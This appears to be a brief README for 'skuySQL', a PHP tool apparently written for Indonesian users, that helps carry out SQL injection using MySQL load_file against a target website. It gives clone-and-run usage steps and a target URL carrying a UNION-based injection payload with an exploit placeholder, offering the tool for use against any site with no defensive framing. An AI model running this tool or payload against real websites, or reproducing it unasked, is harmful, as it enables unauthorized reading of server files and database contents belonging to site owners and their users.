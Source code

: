 # skuySQL

Membantu anda untuk melakukan Injeksi load_file pada POC SQL Outfile

usage : 
$ git clone https://github.com/indosecid/skuySQL.git
$ cd skuySQL
$ php skuySQL.php 
$ enter your target : https://domain.com/detail.php?id=-1' union select 1,2,{exploit},4-- -

and Enjoy it...
